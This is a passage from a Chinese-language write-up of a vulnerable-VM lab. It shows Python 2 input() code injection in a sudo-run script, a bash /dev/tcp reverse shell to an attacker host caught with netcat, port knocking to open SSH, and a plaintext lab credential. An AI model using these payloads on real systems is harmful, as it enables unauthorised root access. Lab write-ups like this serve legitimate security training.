3 - Read some damn files
4 - Work
Enter your choice:2
Choose a number between 1 to 100: 
Enter your number: 42
Better Luck next time

$ sudo /root/lago
What do you want to do ?
1 - Be naughty
2 - Guess the number
3 - Read some damn files
4 - Work
Enter your choice:3
Enter the full of the file to read: /etc/passwd
/etc/passwd
User root is not allowed to read /etc/passwd

$ sudo /root/lago
What do you want to do ?
1 - Be naughty
2 - Guess the number
3 - Read some damn files
4 - Work
Enter your choice:4
work your ass off!!
```

看上去像是用 Python 实现的指令，尝试搜出指令对应的文件。用 `find / -perm -4000 -type f 2>/dev/null` 没搜到，考虑在 sam 的家目录下进行 `ls -la`：

```
$ ls -la
total 36
drwxr-x--- 4 sam  sam  4096 Nov 14  2019 .
drwxr-xr-x 4 root root 4096 Nov 14  2019 ..
-rw------- 1 root root  417 Nov 14  2019 .bash_history
-rw-r--r-- 1 root root  220 Oct 20  2019 .bash_logout
-rw-r--r-- 1 sam  sam  3771 Oct 20  2019 .bashrc
drwx------ 2 sam  sam  4096 Nov 11  2019 .cache
drwx------ 3 sam  sam  4096 Oct 20  2019 .gnupg
-rw-r--r-- 1 sam  sam   807 Oct 20  2019 .profile
-rw-r--r-- 1 sam  sam  1749 Nov  7  2019 .pyc
-rw-r--r-- 1 sam  sam     0 Nov  7  2019 .sudo_as_admin_successful
```

发现 `.sudo_as_admin_successful` 的记录文件，以及比较有意思的 `.pyc` 隐藏文件。使用 http 下载文件，然后反编译得到：

```python title=".pyc" hl_lines="19 20"
# uncompyle6 version 3.9.2
# Python bytecode version base 2.7 (62211)
# Decompiled from: Python 3.6.12 (default, Feb  9 2021, 09:19:15) 
# [GCC 8.3.0]
# Embedded file name: /home/mzfr/scripts/exp.py
# Compiled at: 2019-11-07 13:05:18
from getpass import getuser
from os import system
from random import randint

def naughtyboi():
    print 'Working on it!! '


def guessit():
    num = randint(1, 101)
    print 'Choose a number between 1 to 100: '
    s = input('Enter your number: ')
    if s == num:
        system('/bin/sh')
    else:
        print 'Better Luck next time'


def readfiles():
    user = getuser()
    path = input('Enter the full of the file to read: ')
    print 'User %s is not allowed to read %s' % (user, path)


def options():
    print 'What do you want to do ?'
    print '1 - Be naughty'
    print '2 - Guess the number'
    print '3 - Read some damn files'
    print '4 - Work'
    choice = int(input('Enter your choice: '))
    return choice


def main(op):
    if op == 1:
        naughtyboi()
    elif op == 2:
        guessit()
    elif op == 3:
        readfiles()
    elif op == 4:
        print 'work your ass off!!'
    else:
        print 'Do something better with your life'


if __name__ == '__main__':
    main(options())

```

当猜数游戏正确时，可以获得 Shell，或许就是 root Shell。由于运气不佳，连续猜了 50 多次 `2` 都没猜对，于是考虑从代码本身存在的漏洞点入手

根据 [Vulnerability in input() function – Python 2.x - GeeksforGeeks](https://www.geeksforgeeks.org/python/vulnerability-input-function-python-2-x/) 所述，Python 2.x 中的 `input()` 函数会把用户输入当成 Python 代码执行（类似于 `eval()`），因此可以考虑指令注入：

```python
Enter your number: __import__('os').system('whoami')
root
Better Luck next time
sam@box7:/opt/80$ 
```

注入的指令真的执行了，考虑二次反弹 Shell：

```python title="靶机"
Enter your number: __import__('os').system('bash -c "bash -i >& /dev/tcp/10.0.2.3/4321 0>&1"')
```

```title="攻击机"
> nc -lvnp 4321 
listening on [any] 4321 ...
connect to [10.0.2.3] from (UNKNOWN) [10.0.2.8] 37868
root@box7:/opt/80# 
```

最终获得了 root 账号权限：



（之后发现也可以直接输入 `num`，把变量名当作变量解析，得到猜数正确的结果，从而提权）

---

## 二次挖掘

在之前的算术小游戏中，我们获得了 `1356, 6784, 3409` 的神秘 gift，考虑到之前还有一个 SSH 服务（STATE: filtered，无法正常访问），这里在网上查询了相关的内容，得到了一些线索：（From [端口敲门 - ArchWiki - Arch Linux 百科](https://wiki.archlinux.org.cn/title/Port_knocking)）


使用 knockd 打开 ssh 端口

```hl_lines="3 5"
# nmap -p- -sV -sC 10.0.2.8
# before knock 10.0.2.8 1356 6784 3409
22/tcp filtered ssh
# after knock 10.0.2.8 1356 6784 3409
22/tcp   open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
```

然后可以用之前得到的 nitish 的账密去登录其账号（ `nitish p4ssw0rdStr3r0n9` ）



感觉像是个支线任务，不过可以在不小心断开 nc 后加快回到 nitish 账号的速度（而不需要重新拿反弹 Shell，并且用不完整的终端进行提权）

## 三次挖掘

结合之前的探索（加上一些额外的 `ls` 探索）我们发现：

1- 端口 `1137` 的小游戏程序具有 root 权限

2- 程序使用 Python 2.x 编写，已知 `input()` 函数存在代码注入漏洞，<del>我们需要假定作者写的代码具有风格相似性</del>

于是可以大胆猜测这里也有代码注入的漏洞：



**实践证明这是最快的得到 root 权限的方法，一步到位**

## 渗透结果

成功获得了 root 账户权限，修改密码在靶机登录



---

## 问题分析/启示

1. 在提权过程中，发现没有文件线索的时候，可以尝试通过检查可使用的指令来寻找线索
1. Python 旧版本会存在一些漏洞

---

## 其他

用时 4h+1h（附加任务）

---
